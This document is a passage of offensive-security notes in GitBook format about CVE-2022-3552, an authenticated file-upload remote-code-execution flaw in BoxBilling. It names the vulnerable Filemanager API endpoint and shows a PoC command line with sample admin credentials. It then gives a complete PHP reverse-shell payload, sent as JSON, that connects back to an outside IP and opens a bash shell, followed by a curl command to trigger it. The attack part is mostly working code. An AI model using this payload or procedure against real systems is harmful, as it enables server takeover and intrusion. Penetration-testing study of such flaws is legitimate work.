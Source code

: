 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# BoxBilling

[BoxBilling](https://docs.boxbilling.com/en/latest/index.html) is an open-source web application designed to facilitate automated client management, billing, and support services. Although primarily aimed at web hosting companies, it functions similarly to a lightweight CMS by offering modules for account handling, invoicing, and service provisioning through a web interface. The platform is **PHP-based**, supports integration with various payment gateways, and exposes multiple web-accessible endpoints, some of which interact directly with backend logic and server resources.

## Authenticated File Upload (RCE)

BoxBilling versions up to and including `4.22.1.5` that allows **authenticated administrators** to **upload files without proper validation**, including dangerous file types like PHP shells. The flaw resides in a hidden API endpoint that fails to restrict file type or enforce adequate sanitization . Once a payload is uploaded, execution occurs on the server side, **resulting in RCE with web‑server privileges**. A working is available (needs changing the hardcoded socket details in the revshell payload).

BoxBilling versions up to and including `4.22.1.5` are affected by an **authenticated file upload** vulnerability ([CVE-2022-3552](https://nvd.nist.gov/vuln/detail/CVE-2022-3552)) that **allows administrative users to upload arbitrary files** without any validation or restriction on file type. The vulnerability exists within the `Filemanager` API, which fails to enforce input sanitization or MIME filtering when writing data to disk. This flaw allows for the upload of malicious PHP payloads, **resulting in RCE** when the uploaded file is accessed via the web server.

A public [PoC](https://app.gitbook.com/o/asuXdppEfmgK9Dr478w0/s/mjLkek16kB60c2WFd5lf/) is available and works with minimal modification. Socket values (IP and port) must be updated within the reverse shell payload prior to use:

{% code overflow="wrap" %}
```bash
./CVE-2022-3552.py -d http://boxbilling.com -u admin@boxbilling.com -p Passw0rd123!
```
{% endcode %}

The vulnerability can also be exploited manually via a `POST` request to the endpoint:

```
/index.php?_url=/api/admin/Filemanager/save_file
```

The `data` parameter accepts raw PHP content as a string and writes it to a file in the web root. No restrictions are enforced, making it possible to directly implant a web/reverse shell. All double quotes within the payload must be escaped (`\"`), and unnecessary whitespace should be removed to ensure proper parsing. To confirm the upload path, the following endpoint can be queried ([BoxBilling Admin API Docs](https://docs.boxbilling.com/en/latest/reference/api-admin.html#admin-filemanager-get-list)):

```
/index.php?_url=/api/admin/Filemanager/get_list
```

Example payload (reverse shell), delivered via the API as JSON:

{% code overflow="wrap" %}
```json
{
  "order_id": 1,
  "data": "<?php set_time_limit (0);$VERSION = \"1.0\";$ip = '192.168.45.170';$port = 80;$chunk_size = 1400;$write_a = null;$error_a = null;$shell = 'uname -a; w; id; /bin/bash -i';$daemon = 0;$debug = 0;if (function_exists('pcntl_fork')) {$pid = pcntl_fork();if ($pid == -1) {exit(1);}if ($pid) {exit(0);}if (posix_setsid() == -1) {exit(1);}$daemon = 1;}chdir(\"/\");umask(0);$sock = fsockopen($ip, $port, $errno, $errstr, 30);if (!$sock) {exit(1);}$descriptorspec = array(0 => array(\"pipe\", \"r\"),1 => array(\"pipe\", \"w\"),2 => array(\"pipe\", \"w\"));$process = proc_open($shell, $descriptorspec, $pipes);if (!is_resource($process)) {exit(1);}stream_set_blocking($pipes[0], 0);stream_set_blocking($pipes[1], 0);stream_set_blocking($pipes[2], 0);stream_set_blocking($sock, 0);while (1) {if (feof($sock)) {break;}if (feof($pipes[1])) {break;}$read_a = array($sock, $pipes[1], $pipes[2]);$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);if (in_array($sock, $read_a)) {$input = fread($sock, $chunk_size);fwrite($pipes[0], $input);}if (in_array($pipes[1], $read_a)) {$input = fread($pipes[1], $chunk_size);fwrite($sock, $input);}if (in_array($pipes[2], $read_a)) {$input = fread($pipes[2], $chunk_size);fwrite($sock, $input);}}fclose($sock);fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($process); ?>",
  "path": "revshell.php"
}
```
{% endcode %}

Once successfully uploaded, the shell becomes accessible via a browser or CLI:

```bash
curl -s http://boxbilling.com/revshell.php
```
